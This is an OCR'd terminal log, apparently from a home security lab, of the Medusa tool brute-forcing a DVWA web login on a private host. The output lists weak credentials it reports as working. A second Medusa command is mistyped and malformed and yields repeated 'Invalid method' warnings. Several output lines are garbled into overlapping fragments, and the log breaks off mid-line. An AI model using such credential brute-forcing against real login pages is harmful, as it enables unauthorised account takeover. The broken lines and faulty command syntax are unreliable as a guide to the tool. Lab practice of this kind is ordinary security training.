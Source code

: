 2025-10-24 14:34:19 ACCOUNT CHECK: [http] Host: 192.168.57.3 (1 of 1, 0 complete) User: user (1 of 3, 6 complete) Password: qwerty (3 of 4 complete)
2025-10-24 14:34:19 ACCOUNT FOUND: [http] Host: 192.168.57.3 User: user Password: qwerty [SUCCESS]
2025-10-24 14:34:19 ACCOUNT CHECK: [http] Host: 192.168.57.3 (1 of 1, 0 complete) User: user (1 of 3, 7 complete) Password: 123456 (4 of 4 complete)
2025-10-24 14:34:19 ACCOUNT FOUND: [http] Host: 192.168.57.3 User: user Password: 123456 [SUCCESS]
2025-10-24 14:34:19 ACCOUNT CHECK: [http] Host: 192.168.57.3 (1 of 1, 0 complete) User: msfadmin (2 of 3, 8 complete) Password: 123456 (3 of 4 complete)
2025-10-24 14:34:19 ACCOUNT FOUND: [http] Host: 192.168.57.3 User: msfadmin Password: 123456 [SUCCESS]
oot (3 of 3, 9 complete) Password: qwerty (2 of 4 complete)3 (1 of 1, 0 complete) User: admin
oot Password: qwerty [SUCCESS]UND: [http] Host: 192.168.57.3 User: admin
oot (3 of 3, 10 complete) Password: msfadmin (3 of 4 complete)1 of 1, 0 complete) User: admin
oot Password: msfadmin [SUCCESS]D: [http] Host: 192.168.57.3 User: admin
                                                                                                                                                                      
┌──(root㉿kali)-[/home/kali]
└─# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:1f:b7:23 brd ff:ff:ff:ff:ff:ff
    inet 192.168.57.4/24 brd 192.168.57.255 scope global dynamic noprefixroute eth0
       valid_lft 589sec preferred_lft 589sec
    inet6 fe80::e516:6800:82ff:7908/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
                                                                                                                                                                      
┌──(root㉿kali)-[/home/kali]
└─# mmedusa -h192.168.57.3 --U user.txt -P pass.txt -Mhttp --mPAGE:""/dvwa/login.php" -mPAGE: ''username=^USER^&password=^PASS^&Login=Login' -m 'FAIL=Login failed' -t6
Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

WARNING: Invalid method: PAGE.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: FAIL=Login failed.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: FAIL=Login failed.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: FAIL=Login failed.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: FAIL=Login failed.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: FAIL=Login failed.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: FAIL=Login failed.
2025-10-29 12:17:16 ACCOUNT CHECK: [http] Host: 192.168.57.3 (1 of 1, 0 complet      
